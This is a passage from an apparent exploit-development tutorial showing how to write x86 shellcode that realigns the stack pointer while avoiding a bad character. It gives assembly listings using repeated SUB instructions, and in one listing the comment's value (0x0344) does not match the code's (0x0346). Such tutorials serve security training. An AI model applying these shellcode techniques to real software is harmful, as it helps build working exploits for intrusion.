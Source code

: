 		* Notice that  in the subtraction instruction `\x66\x2d\xa5\x0d` we have an invalid character `a5`! This means we need to modify the program to preform two or more subtractions! Since we are not too concerned with the space this takes, I modified the shellcode to preform 4 subtractions.
		```
		PUSH ESP  		   ; Push the ESP register's value onto the stack 
		POP EAX   		   ; Pop the ESP register's value as it is at the top of the stack into EAX
		SUB AX,0x0369      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0369
		SUB AX,0x0369      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0369
		SUB AX,0x0369      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0369
		SUB AX,0x0369      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0369
		PUSH EAX           ; Push the EAX register containing the adjusted ESP onto the stack
		POP ESP            ; Pop the adjusted ESP value into the ESP register
		``` 

		<img src="Images/I61.png" width=600>

	3. Now we know that we have a padding of 16-bytes, and our newly added shellcode will take 20-bytes; so we can modify it to account for this placing the stack pointer (`ESP`) at the head of our shellcode
		```
		PUSH ESP  		   ; Push the ESP register's value onto the stack 
		POP EAX   		   ; Pop the ESP register's value as it is at the top of the stack into EAX
		SUB AX,0x0369      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0369
		SUB AX,0x0369      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0369
		SUB AX,0x0369      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0369
		SUB AX,0x0346      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0344 to account for our 16-bytes of padding, and this shellcode
		PUSH EAX           ; Push the EAX register containing the adjusted ESP onto the stack
		POP ESP            ; Pop the adjusted ESP value into the ESP register	
		```
		* We modify the final subtraction to reflect the padding, and this shellcode
